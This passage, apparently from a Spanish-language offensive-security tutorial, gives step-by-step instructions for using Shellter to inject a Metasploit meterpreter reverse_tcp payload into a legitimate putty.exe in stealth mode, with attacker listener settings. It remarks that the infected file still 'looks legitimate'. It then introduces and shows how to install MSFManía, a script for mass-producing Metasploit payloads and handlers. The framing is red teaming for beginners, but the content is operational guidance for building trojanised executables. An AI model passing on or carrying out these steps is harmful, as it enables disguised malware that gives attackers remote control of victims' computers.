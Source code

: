 
#### ▶️ Ejemplo: Infectar un EXE legítimo

1. Copia `putty.exe` en la carpeta de Shellter.

2. Ejecuta Shellter:

```bash
wine shellter.exe
```

3. Escoge:

```
[*] Operation Mode: Auto
[*] Enable Stealth Mode? Y
[*] Path to executable: putty.exe
```

4. Te pedirá el payload:

```
Use custom shellcode? N
Select payload: windows/meterpreter/reverse_tcp
```

5. Configura:

```
LHOST: 192.168.1.10
LPORT: 4444
```

Shellter inyectará el shellcode dentro de `putty.exe` manteniendo su funcionalidad. ¡Parece un archivo legítimo!

---

### 🎯 3. **MSFManía**

#### 📌 ¿Qué es MSFManía?

**MSFManía** es un script automatizado (normalmente en Bash) que facilita:

- Crear múltiples payloads de Metasploit
- Configurar `msfconsole` con handlers automáticamente
- Organizar tus pruebas en red teaming

Ideal para principiantes que quieren automatizar y hacer pruebas rápidas.

---

#### 🔧 Instalación de MSFManía

1. Clona el repositorio:

```bash
git clone https://github.com/OffensivePython/MSFMania.git
cd MSFMania
chmod +x msfmania.sh
```
